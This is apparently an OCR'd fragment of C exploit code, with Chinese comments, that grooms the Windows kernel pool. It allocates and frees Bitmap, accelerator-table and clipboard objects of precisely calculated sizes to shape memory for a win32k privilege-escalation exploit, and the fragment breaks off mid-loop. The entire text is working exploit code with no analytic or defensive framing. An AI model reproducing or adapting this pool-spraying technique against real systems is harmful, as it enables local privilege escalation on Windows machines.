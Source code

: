 ```
    {
        // 0xD30 * 1 * 8 / 8 = 0xD30
        // 0xD30 + 0x10 + 0x260 = 0xFA0
        hBitMap[i] = CreateBitmap(0xD30, 1, 1, 8, NULL);
        if (!hBitMap[i])
        {
            ShowError("CreateBitmap", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }

    for (i = 0; i < dwAccelNum; i++)
    {
        // 0x8 * 0x6 + 0x20 + 0x10 = 0x30 + 0x20 + 0x10 = 0x60
        ACCEL accel[0x6] = { 0 };
        hAccel[i] = CreateAcceleratorTableA(accel, 0x6);
        if (!hAccel[i])
        {
            ShowError("CreateAcceleratorTableA", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }

    for (i = 0; i < dwBitNum; i++)
    {
        // 释放0xFA0的BitMap对象
        if (!DeleteObject(hBitMap[i]))
        {
            ShowError("DeleteObject", GetLastError());
            bRet = FALSE;
            goto exit;
        }
        hBitMap[i] = NULL;
    }

    for (i = 0; i < dwBitNum; i++)
    {
        // 0xB9C + 0x14 + 0x10 = 0xBC0,占用其中的0xBC0
        // 这样释放BitMap对象获取的0xFA0内存就剩余0xFA0 - 0xBC0 = 0x3E0
        if (!CreateClipboard(0xB9C))
        {
            bRet = FALSE;
            goto exit;
        }
    }

    for (i = 0; i < dwBitNum; i++)
    {
        // 0x5C * 32 / 8 = 0x5C * 4 = 0x170
        // 0x170 + 0x10 + 0x260 = 0x3E0
        // 占用剩余的0x3E0内存
        hBitMap[i] = CreateBitmap(0x5C, 1, 1, 32, NULL);
        if (!hBitMap[i])
        {
            ShowError("CreateBitmap", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }

    for (i = 2000; i < 3000; i++)
```